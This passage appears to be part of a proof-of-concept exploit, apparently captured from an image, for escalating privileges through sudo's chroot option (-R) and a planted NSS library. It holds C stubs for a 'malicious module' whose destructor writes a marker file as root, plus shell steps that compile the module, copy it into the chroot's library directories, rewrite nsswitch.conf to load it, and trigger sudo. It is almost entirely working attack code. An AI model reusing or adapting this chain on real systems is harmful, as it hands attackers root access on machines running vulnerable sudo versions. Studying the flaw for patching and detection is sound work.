```bash

__attribute__((destructor))
static void my_dtor(void) {
    // Executed after sudo unpivots, before process exit
    write_file("/tmp/nss_poc_destructor", "destructor ran as root?\n");
}

// Minimal NSS stubs that return UNAVAIL so libc falls back to files

enum nss_status _nss_myhack_getpwnam_r(const char *name, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getpwuid_r(uid_t uid, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)uid; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrnam_r(const char *name, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrgid_r(gid_t gid, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)gid; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}
EOF

# 4) Compile the malicious module
cc -fPIC -shared -o /tmp/libnss_myhack.so.2 /tmp/libnss_myhack.c

# 5) Install module into likely library search paths inside the chroot
for d in "$CH"/lib "$CH"/lib64 "$CH"/usr/lib "$CH"/lib/x86_64-linux-gnu; do cp /tmp/libnss_myhack.so.2 "$d"/; done

# 6) Trigger sudo with -R to pivot into chroot and perform NSS lookups
sudo -R "$CH" -u root /usr/bin/true || true
sudo -R "$CH" /usr/bin/id || true

# 7) Verify markers
ls -l "$CH"/tmp/nss_poc_constructor || true
ls -l /tmp/nss_poc_destructor || true
cat /tmp/nss_poc_destructor || true

# 8) Optional: tighten nsswitch to force earlier lookup and retry
printf "passwd: myhack\nshadow: myhack\ngroup: myhack\n" > "$CH"/etc/nsswitch.conf
sudo -R "$CH" /usr/bin/id || true
ls -l /tmp/nss_poc_destructor || true
```
